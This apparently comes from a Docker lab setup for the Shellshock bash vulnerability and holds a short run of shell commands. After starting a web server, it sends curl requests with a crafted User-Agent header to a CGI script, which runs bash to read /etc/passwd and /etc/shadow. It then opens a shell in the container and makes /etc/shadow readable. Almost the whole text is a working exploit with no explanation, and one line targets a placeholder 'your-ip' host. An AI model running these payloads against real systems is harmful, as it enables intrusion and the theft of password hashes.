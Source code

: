 # Start web server
docker-compose up -d


# Launch the attack
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow

